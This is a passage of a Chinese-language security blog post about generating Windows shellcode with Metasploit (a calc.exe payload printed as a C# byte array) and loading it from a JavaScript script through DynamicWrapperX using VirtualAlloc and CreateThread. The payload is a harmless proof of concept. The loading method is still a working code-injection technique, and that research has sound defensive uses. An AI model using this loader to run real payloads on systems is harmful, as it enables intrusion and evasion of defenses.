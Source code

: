 ```
use windows/exec
set CMD calc.exe
generate -t csharp
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-9-13/3-1.png)

获得shellcode

```
byte[] buf = new byte[193] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
```



## 0x03 js脚本加载shellcode
---
**步骤：**

1. 通过VirtualAlloc申请一块具有RWX权限的内存，函数返回值为内存的基地址
2. 
2. 向这段内存写入shellcode
3. 调用CreateThread加载shellcode

实例代码如下：

https://gist.github.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe

代码比较简洁，在此不做详细介绍，直接替换其中的shellcode，正常执行，如图
![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-9-13/3-2.png)


**注：**
VirtualAlloc第二个参数表示分配内存的大小，shellcode的长度不要超过这个数值

DynamicWrapperX 1.0提供了英文版说明，可对照语法进行二次开发，参考地址如下：

http://www.script-coding.com/dynwrapx_eng.html

DynamicWrapperX 2.0中默认提供英文帮助文档，语法有细微变化，需要注意
